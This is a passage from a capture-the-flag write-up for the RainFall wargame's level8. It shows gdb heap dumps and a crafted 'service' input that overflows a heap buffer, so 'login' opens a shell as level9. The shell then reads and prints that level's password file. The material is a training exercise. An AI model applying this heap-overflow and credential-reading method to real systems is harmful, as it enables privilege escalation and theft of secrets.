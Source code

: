 We put '\n' and it fills in other 15 bytes as well.
	
	(gdb) c
	Continuing.
		0x804a008, (nil)
		serviceAAAABBBBCCCCDDDDE

	Breakpoint 3, 0x08048574 in main ()
	(gdb) x/20xw 0x0804a008
		0x804a008:	0x000000|0a|	0x00000000	0x00000000	0x00000019
		0x804a018:	0x41414141	0x42424242	0x43434343	0x44444444
		0x804a028:	0x0000|0a45|	0x00020fd9	0x00000000	0x00000000
		0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000

Now under 0x804a028 lies 'Е' and under 0x804a029 - '\n'.

# Result

    level8@RainFall:~$ ./level8
	(nil), (nil)
	auth
	0x804a008, (nil)
	serviceAAAABBBBCCCCDDDDE
	0x804a008, 0x804a018
	login
	$ whoami
	level9
	$ cat /home/user/level9/.pass
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

